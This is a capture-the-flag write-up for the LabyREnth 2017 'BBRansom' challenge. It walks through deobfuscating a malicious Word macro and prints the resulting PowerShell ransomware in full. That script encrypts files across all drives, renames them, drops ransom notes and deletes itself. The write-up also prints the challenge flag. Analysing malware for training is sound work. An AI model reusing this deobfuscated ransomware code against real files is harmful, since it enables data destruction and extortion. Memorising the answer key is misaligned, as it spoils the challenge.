

## LabyREnth CTF 2017
# Threat 4 : BBRansom

We are provided with a Office Word Document

Running OfficeMalScanner against it will retrieve its VBA macros

The interesting code is in "UjRtRQl" file but it is obfuscated

### De-obfuscating the VBA Macro

I used an old script of mine, [DocumentVariableExtractor.vbs](DocumentVariableExtractor.vbs) to extract the variable "ygsbFH"

This variable contains the dictionary that is used to deobfuscate the rest of the code.

```
cscript DocumentVariableExtractor.vbs <FULL PATH to bbransom.doc> ygsbFH > dictionary
```

Trim off the header in the "dictionary" output file to prepare it for use.

[deobfus_UjRtRQl.vbs](deobfus_UjRtRQl.vbs) contains the redacted version of the vbs script.  
This script basically writes out a Powershell script and executes it.  
I redacted the powershell stuffs out to better illustrate what the vbs script is actually doing.

[soln_01_extract_panlaby.php](soln_01_extract_panlaby.php) will decode the powershell and output it to a file "panlaby.ps1"

### De-obfuscating the Powershell script

panlaby.ps1 has obfuscated variable names.

I deobfuscated and renamed them to be more meaningful

```ps1
$UTF8 = [System.Text.Encoding]::UTF8
$b64str = "DwImSAI1CgMYSQQ+GhoO"
$key = $UTF8.GetBytes("For great justice")
$b64str = $UTF8.GetString([System.Convert]::FromBase64String($b64str))
$msg = $UTF8.GetBytes($b64str)
$goblinKingString = 
$(
    for ($i = 0; $i -lt $msg.length; ) {
        for ($j = 0; $j -lt $key.length; $j++) {
            $msg[$i] -bxor $key[$j]
            $i++
            if ($i -ge $msg.Length) {
                $j = $key.length
            }
        }
    }
)
$goblinKingString = $UTF8.GetString("ImTheGoblinKing")
$keyString = "OjsjcvRgahjsHbsbbcghhdUjjcRtgWhscJhsdUjsbndRgj"
$random24Chars = ([Char[]](GeT-RaNdom -Input $(48..57 + 65..90 + 97..122) -Count 24)) -join ""
[byte[]]$goblinKingBytes=[system.Text.Encoding]::Unicode.GetBytes($goblinKingString)
$keyBytes = [Text.Encoding]::UTF8.GetBytes($keyString)
$Cipher = neW-Object System.Security.Cryptography.RijndaelManaged
$Cipher.Key = (new-Object Security.Cryptography.Rfc2898DeriveBytes $goblinKingString, $keyBytes, 5).GetBytes(32)
$Cipher.IV = (new-Object Security.Cryptography.SHA1Managed).ComputeHash([Text.Encoding]::UTF8.GetBytes("alle") )[0..15]
$Cipher.Padding="Zeros"
$Cipher.Mode="CBC"
$GottenDrives= gdr|where {$_.Free}|Sort-ObjeCt -Descending
foreach($curDrive in $GottenDrives){
    gci $curDrive.root -Recurse -Include "*.urbb","*.toby"|%{
    try{
        $curFile = New-Object System.IO.BinaryReader([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        if ($curFile.BaseStream.Length -lt 2048){return}
        else {$readSize = 2048}
        $fileBytes = $curFile.ReadBytes($readSize)
        $curFile.Close()
        $Encryptor = $Cipher.CreateEncryptor()
        $MemoryStream = new-Object IO.MemoryStream
        $CryptoStream = new-Object Security.Cryptography.CryptoStream $MemoryStream,$Encryptor,"Write"
        $CryptoStream.Write($fileBytes, 0,$fileBytes.Length)
        $CryptoStream.Close()
        $MemoryStream.Close()
        $Encryptor.Clear()
        $EncryptedOutput = $MemoryStream.ToArray()
        $OutputBinaryWriter = New-Object System.IO.BinaryWriter([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        $OutputBinaryWriter.Write($EncryptedOutput,0,$EncryptedOutput.Length)
        $OutputBinaryWriter.Close()
        $TheNewName=$_.Name+'.bbmine'
        ren -Path $_.FullName -NewName $TheNewName -Force
        $InstructionFilePath = $_.Directory.ToString() + '\_HELP_instructions.html'
        $HTMLRansomContent = [System.Text.Encoding]::UTF8.GetString("<h1>I am the goblin king!</h1><br>All ur bbz  are belong to us. You have no chance to survive make your time.");
        New-Item -Path $InstructionFilePath -ItemType file -Value $HTMLRansomContent
        Add-Content -Path $InstructionFilePath -Value ("<h1>CLIENT ID: $random24Chars <br></h1>")
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h2>Campaign ID: Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7 <br></h2>"));
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h3>Version Key: For great justice <br></h3>"));
    }
    catch{}
    }
}
function YHBFDXGFGHGJHDRSD() {
    $fhYThncwwIjfDFGHsf = (Get-VaRiable MyInvocation -Scope 1).Value
    $YHnbbfgcgfcEThhYH =  $fhYThncwwIjfDFGHsf.MyCommand.Path
    Remove-ITem $YHnbbfgcgfcEThhYH
}
YHBFDXGFGHGJHDRSD
```

### Getting the flag

The Powershell script is basically a ransomware
- Initialize a Cipher using several strings as Key and IV
- Loops through all directories, looking for files ending with ".urbb" or ".toby" and encrypts them using the Cipher
- Once a files are encrypted, display a ransom message with the following values
    - 24 character random ClientID
    - Campaign ID : Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7
    - Version Key: "For great justice"

I was stuck here for some time.  
At first, I thought I needed to decrypt the Campaign ID with the Cipher Instance  
But the solution is much simpler
- Perform a Xor between the Base64-decoded Campaign ID and the Version Key will give the flag

[soln_02_panlaby.php](soln_02_panlaby.php) will do just that and display the flag



The flag is **PAN{2afbfa3e5937e9b610fdfcfbbad27b28bb0f908d17d33f90e8c8ad573a8e064f}**